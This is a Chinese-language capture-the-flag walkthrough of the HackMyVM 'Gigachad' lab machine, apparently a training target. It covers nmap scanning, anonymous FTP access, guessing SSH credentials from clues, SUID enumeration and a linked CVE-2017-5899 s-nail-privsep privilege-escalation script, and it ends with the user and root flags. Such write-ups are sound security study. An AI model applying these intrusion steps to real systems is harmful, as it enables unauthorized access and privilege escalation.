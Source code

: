 # Gigachad

:::note

[Linux VM] [Tested on VirtualBox] created by || tasiyanci

⏲️ Release Date // 2021-02-10

✔️ MD5 // 8bf513626e3154e29861b38b23051113

☠ Root // 116

💀 User // 124

📝Notes //
Tested on and exported from virtualbox.

:::

## 靶机启动

![靶机启动](img/image_20231254-205406.png)

靶机 IP：

```plaintext
192.168.56.113
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.113
Host is up (0.00044s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x    1 1000     1000          297 Feb 07  2021 chadinfo
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 6afed61723cb90792bb12d3753974658 (RSA)
|   256 5bc468d18959d748b096f311871c08ac (ECDSA)
|_  256 613966881d8ff1d040611e99c51a1ff4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/kingchad.html
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:D9:9A:81 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## ftp 服务存在匿名登陆

```shell
┌─[✗]─[randark@randark-Parrot]─[~]
└──╼ $ftp 192.168.56.113
Connected to 192.168.56.113.
220 (vsFTPd 3.0.3)
Name (192.168.56.113:randark): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x    2 1000     1000         4096 Feb 07  2021 .
dr-xr-xr-x    2 1000     1000         4096 Feb 07  2021 ..
-r-xr-xr-x    1 1000     1000          297 Feb 07  2021 chadinfo
226 Directory send OK.
ftp>
```

将 `chadinfo` 文件下载到本地，发现为 zip 压缩文件

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Gigachad]
└──╼ $file chadinfo
chadinfo: Zip archive data, at least v1.0 to extract
```

解压后得到

```shell
why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png
```

## 探测 web 服务

尝试直接访问

![访问 /](img/image_20231201-210140.png)

在原始返回中，发现以下数据

```plaintext
A7F9B77C16A3AA80DAA4E378659226F628326A95
D82D10564866FD9B201941BCC6C94022196F8EE8
```

尝试访问 ftp 服务中得到的路径 `/drippinchad.png`

![访问 /drippinchad.png](img/image_20231204-210407.png)

目测并不存在隐写，但是经过搜索，得到了图像中的地名：`maidenstower`

结合上文得到的用户名，组合为凭据

```plaintext
chad:maidenstower
```

尝试登录

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Gigachad]
└──╼ $pwncat-cs chad@192.168.56.113
[21:07:34] Welcome to pwncat 🐈!                                                                                                                         __main__.py:164
Password: ************
[21:07:39] 192.168.56.113:22: normalizing shell path                                                                                                      manager.py:957
[21:07:40] 192.168.56.113:22: registered new host w/ db                                                                                                   manager.py:957
(local) pwncat$ back
(remote) chad@gigachad:/home/chad$ whoami
chad
```

## user pwned

```shell
(remote) chad@gigachad:/home/chad$ cat user.txt
0FAD8F4B099A26E004376EAB42B6A56A
```

## 提权探测

```plaintext title="sudo -l"
-bash: sudo: command not found
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/openssh/ssh-keysign
/usr/lib/s-nail/s-nail-privsep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

经过查阅资料，`s-nail-privsep` 存在 `CVE-2017-5899` 漏洞，可以用于提权

## `s-nail-privsep` `CVE-2017-5899` 漏洞利用

使用 poc：`https://github.com/bcoles/local-exploits/blob/master/CVE-2017-5899/exploit.sh`

```shell
(remote) chad@gigachad:/home/chad$ chmod +x s-nail-privsep_CVE-2017-5899.sh 
(remote) chad@gigachad:/home/chad$ ./s-nail-privsep_CVE-2017-5899.sh 
......

```

:::warning

s-nail-privsep 的漏洞我在本地未能利用成功，但是参考其他师傅的writeup，是存在成功的案例的，可能环境存在差异

:::

## root pwned

```plaintext title="/root/root.txt"
832B123648707C6CD022DD9009AEF2FD
```